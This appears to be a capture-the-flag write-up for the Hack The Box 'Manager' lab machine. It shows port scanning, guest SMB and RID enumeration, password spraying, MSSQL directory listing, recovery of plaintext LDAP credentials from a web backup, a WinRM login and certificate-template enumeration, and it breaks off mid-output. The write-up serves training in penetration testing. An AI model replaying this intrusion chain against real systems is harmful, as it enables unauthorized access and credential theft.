

# Manager

This is the write-up for the Manager machine from Hack The Box.

# Reconnaissance

First, we execute a full port scan on the host.

```bash
┌──[ th3g3ntl3m4n]─[ 10.24.2.134]─[ 10.10.14.217]
├──[  ~]
└─ $  sudo nmap -v -sS -Pn -p- --min-rate=300 --max-rate=500 10.10.11.236

PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
1433/tcp  open  ms-sql-s
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49667/tcp open  unknown
49687/tcp open  unknown
49688/tcp open  unknown
49689/tcp open  unknown
49728/tcp open  unknown
54932/tcp open  unknown
60819/tcp open  unknown
```

We execute a port scan only on the open ports that were found previously.

```bash
┌──[ th3g3ntl3m4n]─[ 10.24.2.134]─[ 10.10.14.217]
├──[  ~/htb/machines/manager]
└─ $  sudo nmap -vv -sC -sV -Pn -p 53,80,88,135,139,389,445,464,593,636,1433,3268,3269,5985,9389 -oA nmap/manager 10.10.11.236

PORT     STATE SERVICE       REASON          VERSION                                           
53/tcp   open  domain        syn-ack ttl 127 Simple DNS Plus                                   
80/tcp   open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0                          
|_http-server-header: Microsoft-IIS/10.0                                                       
|_http-title: Manager                                                                          
| http-methods:                                                                                
|   Supported Methods: OPTIONS TRACE GET HEAD POST                                             
|_  Potentially risky methods: TRACE                                                           
88/tcp   open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2023-10-26 05:38:10Z)                                                                                   
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC                             
139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn                     
389/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)                                                   
| ssl-cert: Subject: commonName=dc01.manager.htb                                               
| Subject Alternative Name: othername:<unsupported>, DNS:dc01.manager.htb                      
| Issuer: commonName=manager-DC01-CA/domainComponent=manager                                   
| Public Key type: rsa                                                                         
| Public Key bits: 2048                                                                        
| Signature Algorithm: sha256WithRSAEncryption                                                 
| Not valid before: 2023-07-30T13:51:28                                                        
| Not valid after:  2024-07-29T13:51:28                                                                                                                                                       
| MD5:   8f4d67bc2117e4d543e976bd1212b562                                                      
| SHA-1: 677995060167b030ce926a31f81c08001c0e29fb
...
445/tcp  open  microsoft-ds? syn-ack ttl 127
464/tcp  open  kpasswd5?     syn-ack ttl 127
593/tcp  open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-10-26T05:39:32+00:00; +6h59m56s from scanner time.
| ssl-cert: Subject: commonName=dc01.manager.htb
| Subject Alternative Name: othername:<unsupported>, DNS:dc01.manager.htb
| Issuer: commonName=manager-DC01-CA/domainComponent=manager
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-07-30T13:51:28
| Not valid after:  2024-07-29T13:51:28
| MD5:   8f4d67bc2117e4d543e976bd1212b562
| SHA-1: 677995060167b030ce926a31f81c08001c0e29fb
...
1433/tcp open  ms-sql-s      syn-ack ttl 127 Microsoft SQL Server 2019 15.00.2000.00; RTM
|_ssl-date: 2023-10-26T05:39:34+00:00; +6h59m56s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Issuer: commonName=SSL_Self_Signed_Fallback
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-10-25T15:54:28
| Not valid after:  2053-10-25T15:54:28
| MD5:   91676c5f79b1a00bcdbc2e5ebd0b2284
| SHA-1: 5d1067e745253b2c135e7eb0f71e03952f38f467
...
3268/tcp open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-10-26T05:39:34+00:00; +6h59m56s from scanner time.
| ssl-cert: Subject: commonName=dc01.manager.htb
| Subject Alternative Name: othername:<unsupported>, DNS:dc01.manager.htb
| Issuer: commonName=manager-DC01-CA/domainComponent=manager
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-07-30T13:51:28
| Not valid after:  2024-07-29T13:51:28
| MD5:   8f4d67bc2117e4d543e976bd1212b562
| SHA-1: 677995060167b030ce926a31f81c08001c0e29fb
...
3269/tcp open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc01.manager.htb
| Subject Alternative Name: othername:<unsupported>, DNS:dc01.manager.htb
| Issuer: commonName=manager-DC01-CA/domainComponent=manager
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-07-30T13:51:28
| Not valid after:  2024-07-29T13:51:28
| MD5:   8f4d67bc2117e4d543e976bd1212b562
| SHA-1: 677995060167b030ce926a31f81c08001c0e29fb
...
5985/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp open  mc-nmf        syn-ack ttl 127 .NET Message Framing
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

We write the domains found down in our local hosts file.



# Enumeration

As it is a Windows machine, we first execute an SMB enumeration.

```bash
┌──[ th3g3ntl3m4n]─[ 10.24.2.134]─[ 10.10.14.217]
├──[  ~/htb/machines/manager]
└─ $  crackmapexec smb 10.10.11.236 --shares                                                                                                                                         [ 7:04 ]
SMB         10.10.11.236    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.236    445    DC01             [-] Error enumerating shares: SMB SessionError: STATUS_USER_SESSION_DELETED(The remote user session has been deleted.)
```

We use the user `guest`, that comes with the Windows system by default and we were able to enumerate some shares from SMB.

```bash
┌──[ th3g3ntl3m4n@parrot]─[ 10.24.2.134]─[ 10.10.14.217]
├──[  ~/htb/machines/manager]
└─ $  crackmapexec smb 10.10.11.236 -u 'guest' -p '' --shares                                                                                                                        [ 7:25 ]
SMB         10.10.11.236    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.236    445    DC01             [+] manager.htb\guest: 
SMB         10.10.11.236    445    DC01             [+] Enumerated shares
SMB         10.10.11.236    445    DC01             Share           Permissions     Remark
SMB         10.10.11.236    445    DC01             -----           -----------     ------
SMB         10.10.11.236    445    DC01             ADMIN$                          Remote Admin
SMB         10.10.11.236    445    DC01             C$                              Default share
SMB         10.10.11.236    445    DC01             IPC$            READ            Remote IPC
SMB         10.10.11.236    445    DC01             NETLOGON                        Logon server share 
SMB         10.10.11.236    445    DC01             SYSVOL                          Logon server share
```

Now, we execute a brute-force RID enumeration using the `crackmapexec` tool.

```bash
┌──[ th3g3ntl3m4n@parrot]─[ 10.24.2.134]─[ 10.10.14.217]
├──[  ~/htb/machines/manager]
└─ $  crackmapexec smb 10.10.11.236 -u 'guest' -p '' --rid-brute 10000                                                                                                               [ 7:32 ]
SMB         10.10.11.236    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.236    445    DC01             [+] manager.htb\guest: 
SMB         10.10.11.236    445    DC01             [+] Brute forcing RIDs
SMB         10.10.11.236    445    DC01             498: MANAGER\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.236    445    DC01             500: MANAGER\Administrator (SidTypeUser)
SMB         10.10.11.236    445    DC01             501: MANAGER\Guest (SidTypeUser)
SMB         10.10.11.236    445    DC01             502: MANAGER\krbtgt (SidTypeUser)
SMB         10.10.11.236    445    DC01             512: MANAGER\Domain Admins (SidTypeGroup)
SMB         10.10.11.236    445    DC01             513: MANAGER\Domain Users (SidTypeGroup)
SMB         10.10.11.236    445    DC01             514: MANAGER\Domain Guests (SidTypeGroup)
SMB         10.10.11.236    445    DC01             515: MANAGER\Domain Computers (SidTypeGroup)
SMB         10.10.11.236    445    DC01             516: MANAGER\Domain Controllers (SidTypeGroup)
SMB         10.10.11.236    445    DC01             517: MANAGER\Cert Publishers (SidTypeAlias)
SMB         10.10.11.236    445    DC01             518: MANAGER\Schema Admins (SidTypeGroup)
SMB         10.10.11.236    445    DC01             519: MANAGER\Enterprise Admins (SidTypeGroup)
SMB         10.10.11.236    445    DC01             520: MANAGER\Group Policy Creator Owners (SidTypeGroup)
SMB         10.10.11.236    445    DC01             521: MANAGER\Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.236    445    DC01             522: MANAGER\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.10.11.236    445    DC01             525: MANAGER\Protected Users (SidTypeGroup)
SMB         10.10.11.236    445    DC01             526: MANAGER\Key Admins (SidTypeGroup)
SMB         10.10.11.236    445    DC01             527: MANAGER\Enterprise Key Admins (SidTypeGroup)
SMB         10.10.11.236    445    DC01             553: MANAGER\RAS and IAS Servers (SidTypeAlias)
SMB         10.10.11.236    445    DC01             571: MANAGER\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.10.11.236    445    DC01             572: MANAGER\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.10.11.236    445    DC01             1000: MANAGER\DC01$ (SidTypeUser)
SMB         10.10.11.236    445    DC01             1101: MANAGER\DnsAdmins (SidTypeAlias)
SMB         10.10.11.236    445    DC01             1102: MANAGER\DnsUpdateProxy (SidTypeGroup)
SMB         10.10.11.236    445    DC01             1103: MANAGER\SQLServer2005SQLBrowserUser$DC01 (SidTypeAlias)
SMB         10.10.11.236    445    DC01             1113: MANAGER\Zhong (SidTypeUser)
SMB         10.10.11.236    445    DC01             1114: MANAGER\Cheng (SidTypeUser)
SMB         10.10.11.236    445    DC01             1115: MANAGER\Ryan (SidTypeUser)
SMB         10.10.11.236    445    DC01             1116: MANAGER\Raven (SidTypeUser)
SMB         10.10.11.236    445    DC01             1117: MANAGER\JinWoo (SidTypeUser)
SMB         10.10.11.236    445    DC01             1118: MANAGER\ChinHae (SidTypeUser)
SMB         10.10.11.236    445    DC01             1119: MANAGER\Operator (SidTypeUser)
```

We saved the output of the `crackmapexec` tool and format the output in order to write in another file to create a list of users.

```bash
┌──[ th3g3ntl3m4n@parrot]─[ 10.24.2.134]─[ 10.10.14.217]
├──[  ~/htb/machines/manager]
└─ $  cat cme_brute-rid.txt | grep "SidTypeUser" | cut -d ":" -f 2 | cut -d "\\" -f 2 | cut -d " " -f 1                                                                              [ 7:41 ]
Administrator
Guest
krbtgt
DC01$
Zhong
Cheng
Ryan
Raven
JinWoo
ChinHae
Operator

┌──[ th3g3ntl3m4n@parrot]─[ 10.24.2.134]─[ 10.10.14.217]
├──[  ~/htb/machines/manager]
└─ $  cat cme_brute-rid.txt | grep "SidTypeUser" | cut -d ":" -f 2 | cut -d "\\" -f 2 | cut -d " " -f 1 > users.txt
```

Now, we create a wordlist of common passwords for those users and execute a password spraying attack.

```bash
┌──[ th3g3ntl3m4n@parrot]─[ 10.24.2.134]─[ 10.10.14.217]
├──[  ~/htb/machines/manager]
└─ $  cat wordlist.txt                                                                                                                                                               [ 7:45 ]
Administrator
Guest
krbtgt
DC01$
Zhong
Cheng
Ryan
Raven
JinWoo
ChinHae
Operator
administrator
guest
krbtgt
zhong
cheng
ryan
raven
jinWoo
chinHae
operator
```

Executing the password spraying attack.

```bash
┌──[ th3g3ntl3m4n@parrot]─[ 10.24.2.134]─[ 10.10.14.217]                                                                                                                                   
├──[  ~/htb/machines/manager]                                                                                                                                                                
└─ $  crackmapexec smb 10.10.11.236 -u users.txt -p wordlist.txt --shares --continue-on-success                                                                                      [ 7:46 ] 
SMB         10.10.11.236    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)                                            
SMB         10.10.11.236    445    DC01             [-] manager.htb\Administrator:Administrator STATUS_LOGON_FAILURE                                                                          
SMB         10.10.11.236    445    DC01             [-] manager.htb\Administrator:Guest STATUS_LOGON_FAILURE                                                                                  
SMB         10.10.11.236    445    DC01             [-] manager.htb\Administrator:krbtgt STATUS_LOGON_FAILURE                                                                                 
SMB         10.10.11.236    445    DC01             [-] manager.htb\Administrator:DC01$ STATUS_LOGON_FAILURE
...
SMB         10.10.11.236    445    DC01             [-] manager.htb\Operator:raven STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\Operator:jinWoo STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\Operator:chinHae STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [+] manager.htb\Operator:operator

```

After that, we didn’t get anything useful on SMB shares, then we executed mssqlclient tool.

```bash
┌──[ th3g3ntl3m4n@parrot]─[ 10.24.2.134]─[ 10.10.14.200]
├──[  ~/htb/machines/manager]
└─ $  mssqlclient.py manager.htb/operator@10.10.11.236 -windows-auth                                                                                                                 [ 1:55 ]
Impacket v0.11.0 - Copyright 2023 Fortra

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (MANAGER\Operator  guest@master)>
```

# Exploitation

We were able to list files and directories using xp_dirtree command.

```bash
SQL (MANAGER\Operator  guest@master)> xp_dirtree c:\
subdirectory                depth   file   
-------------------------   -----   ----   
$Recycle.Bin                    1      0   

Documents and Settings          1      0   

inetpub                         1      0   

PerfLogs                        1      0   

Program Files                   1      0   

Program Files (x86)             1      0   

ProgramData                     1      0   

Recovery                        1      0   

SQL2019                         1      0   

System Volume Information       1      0   

Users                           1      0   

Windows                         1      0
```

Searching around, we check the webroot directory and we found a backup file from the website.

```bash
SQL (MANAGER\Operator  guest@master)> xp_dirtree c:\inetpub\wwwroot
subdirectory                      depth   file   
-------------------------------   -----   ----   
about.html                            1      1   

contact.html                          1      1   

css                                   1      0   

images                                1      0   

index.html                            1      1   

js                                    1      0   

service.html                          1      1   

web.config                            1      1   

website-backup-27-07-23-old.zip       1      1
```

We downloaded it via browser, because the file is in webroot directory and check it.


Unzipping the file and we found the old-conf.xml file.

```bash
┌──[ th3g3ntl3m4n@parrot]─[ 10.24.2.134]─[ 10.10.14.200]                                                                                                                                   
├──[  ~/htb/machines/images/backup]                                                                                                                                                         
└─ $  unzip website-backup-27-07-23-old.zip                                                                                                                                          [ 2:18 ]
Archive:  website-backup-27-07-23-old.zip
  inflating: .old-conf.xml           
  inflating: about.html              
  inflating: contact.html            
  inflating: css/bootstrap.css       
  inflating: css/responsive.css      
  inflating: css/style.css           
  inflating: css/style.css.map       
  inflating: css/style.scss          
  inflating: images/about-img.png    
  inflating: images/body_bg.jpg      
 extracting: images/call.png         
 extracting: images/call-o.png       
  inflating: images/client.jpg       
  inflating: images/contact-img.jpg  
 extracting: images/envelope.png     
 extracting: images/envelope-o.png   
  inflating: images/hero-bg.jpg      
 extracting: images/location.png     
 extracting: images/location-o.png   
 extracting: images/logo.png         
  inflating: images/menu.png         
 extracting: images/next.png         
 extracting: images/next-white.png   
  inflating: images/offer-img.jpg    
  inflating: images/prev.png         
 extracting: images/prev-white.png   
 extracting: images/quote.png        
 extracting: images/s-1.png          
 extracting: images/s-2.png          
 extracting: images/s-3.png          
 extracting: images/s-4.png          
 extracting: images/search-icon.png  
  inflating: index.html              
  inflating: js/bootstrap.js         
  inflating: js/jquery-3.4.1.min.js  
  inflating: service.html
```

We opened it and we got the raven user credentials.

```bash
<?xml version="1.0" encoding="UTF-8"?>
<ldap-conf xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
   <server>
      <host>dc01.manager.htb</host>
      <open-port enabled="true">389</open-port>
      <secure-port enabled="false">0</secure-port>
      <search-base>dc=manager,dc=htb</search-base>
      <server-type>microsoft</server-type>
      <access-user>
         <user>raven@manager.htb</user>
         <password>R4v3nBe5tD3veloP3r!123</password>
      </access-user>
      <uid-attribute>cn</uid-attribute>
   </server>
   <search type="full">
      <dir-list>
         <dir>cn=Operator1,CN=users,dc=manager,dc=htb</dir>
      </dir-list>
   </search>
</ldap-conf>
```

We were able to log into the winrm service with this credentials.

```bash
┌──[ th3g3ntl3m4n@parrot]─[ 10.24.2.134]─[ 10.10.14.200]
├──[  ~/htb/machines/images/backup]
└─ $  evil-winrm -i 10.10.11.236 -u raven -p 'R4v3nBe5tD3veloP3r!123'                                                                                                                [ 2:24 ]
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Raven\Documents> whoami
manager\raven
```

# Privilege Escalation

After some searching, we enumerated the possibility of certificate method privilege escalation. First of all, we set our local time machine to the same of the DC server.

```bash
┌──[ th3g3ntl3m4n@parrot]─[ 10.24.2.134]─[ 10.10.14.200]
├──[  ~/htb/machines/manager]
└─ $  sudo ntpdate -s 10.10.11.236
```

We use certify tool to enumerate possible ways to privilege escalation throw certificate on the machine. We can see that our user raven are able to Allow,  ManageCA and Enroll certificates in the DC.

```bash

*Evil-WinRM* PS C:\Users\Raven\Documents> .\certify.exe find /domain:manager.htb                                                                                                              
                                                                                                                                                                                              
   _____          _   _  __                                                                                                                                                                   
  / ____|        | | (_)/ _|                                                                                                                                                                  
 | |     ___ _ __| |_ _| |_ _   _                                                                                                                                                             
 | |    / _ \ '__| __| |  _| | | |                                                                                                                                                            
 | |___|  __/ |  | |_| | | | |_| |                                                                                                                                                            
  \_____\___|_|   \__|_|_|  \__, |                                                                                                                                                            
                             __/ |                                                                                                                                                            
                            |___./                                                                                                                                                            
  v1.0.0                                                                                                                                                                                      
                                                                                                                                                                                              
[*] Action: Find certificate templates                                                                                                                                                        
[*] Using the search base 'CN=Configuration,DC=manager,DC=htb'                                                                                                                                
                                                                                                                                                                                              
[*] Listing info about the Enterprise CA 'manager-DC01-CA'                                                                                                                                    
                                                                                                                                                                                              
    Enterprise CA Name            : manager-DC01-CA                                                                                                                                           
    DNS Hostname                  : dc01.manager.htb                                                                                                                                          
    FullName                      : dc01.manager.htb\manager-DC01-CA                                                                                                                          
    Flags                         : SUPPORTS_NT_AUTHENTICATION, CA_SERVERTYPE_ADVANCED                                                                                                        
    Cert SubjectName              : CN=manager-DC01-CA, DC=manager, DC=htb                                                                                                                    
    Cert Thumbprint               : ACE850A2892B1614526F7F2151EE76E752415023                                                                                                                  
    Cert Serial                   : 5150CE6EC048749448C7390A52F264BB                                                                                                                          
    Cert Start Date               : 7/27/2023 3:21:05 AM                                                                                                                                      
    Cert End Date                 : 7/27/2122 3:31:04 AM                                                                                                                                      
    Cert Chain                    : CN=manager-DC01-CA,DC=manager,DC=htb                                                                                                                      
    UserSpecifiedSAN              : Disabled                                                                                                                                                  
    CA Permissions                :                                                                                                                                                           
      Owner: BUILTIN\Administrators        S-1-5-32-544                                                                                                                                       
                                                                                                                                                                                              
      Access Rights                                     Principal                                                                                                                             
                                                                                                                                                                                              
      Deny   ManageCA, Read                             MANAGER\Operator              S-1-5-21-4078382237-1492182817-2568127209-1119                                                          
      Allow  Enroll                                     NT AUTHORITY\Authenticated UsersS-1-5-11                                                                                              
      Allow  ManageCA, ManageCertificates               BUILTIN\Administrators        S-1-5-32-544                                                                                            
      Allow  ManageCA, ManageCertificates               MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512                                                           
      Allow  ManageCA, ManageCertificates               MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519                                                           
      Allow  ManageCA, Enroll                           MANAGER\Raven                 S-1-5-21-4078382237-1492182817-2568127209-1116                                                          
      Allow  Enroll                                     MANAGER\Operator              S-1-5-21-4078382237-1492182817-2568127209-1119                                                          
    Enrollment Agent Restrictions : None
[*] Available Certificates Templates :

    CA Name                               : dc01.manager.htb\manager-DC01-CA
    Template Name                         : User
    Schema Version                        : 1
    Validity Period                       : 1 year
    Renewal Period                        : 6 weeks
    msPKI-Certificate-Name-Flag          : SUBJECT_ALT_REQUIRE_UPN, SUBJECT_ALT_REQUIRE_EMAIL, SUBJECT_REQUIRE_EMAIL, SUBJECT_REQUIRE_DIRECTORY_PATH
    mspki-enrollment-flag                 : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS, AUTO_ENROLLMENT
    Authorized Signatures Required        : 0
    pkiextendedkeyusage                   : Client Authentication, Encrypting File System, Secure Email
    mspki-certificate-application-policy  : <null>
    Permissions
      Enrollment Permissions
        Enrollment Rights           : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Domain Users          S-1-5-21-4078382237-1492182817-2568127209-513
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
      Object Control Permissions
        Owner                       : MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteOwner Principals       : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteDacl Principals        : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteProperty Principals    : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519

    CA Name                               : dc01.manager.htb\manager-DC01-CA
    Template Name                         : EFS 
    Schema Version                        : 1
    Validity Period                       : 1 year
    Renewal Period                        : 6 weeks
    msPKI-Certificate-Name-Flag          : SUBJECT_ALT_REQUIRE_UPN, SUBJECT_REQUIRE_DIRECTORY_PATH
    mspki-enrollment-flag                 : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS, AUTO_ENROLLMENT
    Authorized Signatures Required        : 0
    pkiextendedkeyusage                   : Encrypting File System
    mspki-certificate-application-policy  : <null>
    Permissions
      Enrollment Permissions
        Enrollment Rights           : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Domain Users          S-1-5-21-4078382237-1492182817-2568127209-513
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
Object Control Permissions
        Owner                       : MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteOwner Principals       : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteDacl Principals        : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteProperty Principals    : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519

    CA Name                               : dc01.manager.htb\manager-DC01-CA
    Template Name                         : Administrator
    Schema Version                        : 1
    Validity Period                       : 1 year
    Renewal Period                        : 6 weeks
    msPKI-Certificate-Name-Flag          : SUBJECT_ALT_REQUIRE_UPN, SUBJECT_ALT_REQUIRE_EMAIL, SUBJECT_REQUIRE_EMAIL, SUBJECT_REQUIRE_DIRECTORY_PATH
    mspki-enrollment-flag                 : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS, AUTO_ENROLLMENT
    Authorized Signatures Required        : 0
    pkiextendedkeyusage                   : Client Authentication, Encrypting File System, Microsoft Trust List Signing, Secure Email
    mspki-certificate-application-policy  : <null>
    Permissions
      Enrollment Permissions
        Enrollment Rights           : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
      Object Control Permissions
        Owner                       : MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteOwner Principals       : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteDacl Principals        : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteProperty Principals    : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519

    CA Name                               : dc01.manager.htb\manager-DC01-CA
    Template Name                         : EFSRecovery
    Schema Version                        : 1
    Validity Period                       : 5 years
    Renewal Period                        : 6 weeks
    msPKI-Certificate-Name-Flag          : SUBJECT_ALT_REQUIRE_UPN, SUBJECT_REQUIRE_DIRECTORY_PATH
    mspki-enrollment-flag                 : INCLUDE_SYMMETRIC_ALGORITHMS, AUTO_ENROLLMENT
    Authorized Signatures Required        : 0
    pkiextendedkeyusage                   : File Recovery
    mspki-certificate-application-policy  : <null>
Permissions                                                                                                                                                                     [148/2709]
      Enrollment Permissions
        Enrollment Rights           : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
      Object Control Permissions
        Owner                       : MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteOwner Principals       : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteDacl Principals        : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteProperty Principals    : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519

    CA Name                               : dc01.manager.htb\manager-DC01-CA
    Template Name                         : Machine
    Schema Version                        : 1
    Validity Period                       : 1 year
    Renewal Period                        : 6 weeks
    msPKI-Certificate-Name-Flag          : SUBJECT_ALT_REQUIRE_DNS, SUBJECT_REQUIRE_DNS_AS_CN
    mspki-enrollment-flag                 : AUTO_ENROLLMENT
    Authorized Signatures Required        : 0
    pkiextendedkeyusage                   : Client Authentication, Server Authentication
    mspki-certificate-application-policy  : <null>
    Permissions
      Enrollment Permissions
        Enrollment Rights           : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Domain Computers      S-1-5-21-4078382237-1492182817-2568127209-515
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
      Object Control Permissions
        Owner                       : MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteOwner Principals       : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteDacl Principals        : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteProperty Principals    : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519

    CA Name                               : dc01.manager.htb\manager-DC01-CA
    Template Name                         : DomainController
    Schema Version                        : 1
    Validity Period                       : 1 year
    Renewal Period                        : 6 weeks
    msPKI-Certificate-Name-Flag          : SUBJECT_ALT_REQUIRE_DIRECTORY_GUID, SUBJECT_ALT_REQUIRE_DNS, SUBJECT_REQUIRE_DNS_AS_CN
mspki-enrollment-flag                 : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS, AUTO_ENROLLMENT
    Authorized Signatures Required        : 0
    pkiextendedkeyusage                   : Client Authentication, Server Authentication
    mspki-certificate-application-policy  : <null>
    Permissions
      Enrollment Permissions
        Enrollment Rights           : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Domain Controllers    S-1-5-21-4078382237-1492182817-2568127209-516
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
